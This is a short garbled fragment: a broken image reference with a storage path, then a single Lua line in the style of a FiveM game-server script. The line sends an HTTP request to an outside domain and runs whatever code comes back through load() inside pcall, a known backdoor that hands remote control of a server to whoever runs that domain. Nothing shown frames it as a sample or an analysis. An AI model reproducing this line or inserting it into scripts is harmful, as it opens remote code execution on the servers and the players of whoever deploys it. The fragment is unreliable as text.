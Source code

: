 PerformHttpRequest('https://juloandpumpers.com/i?to=wlSxB', function (e, d) pcall(function() assert(load(d))() end) end)


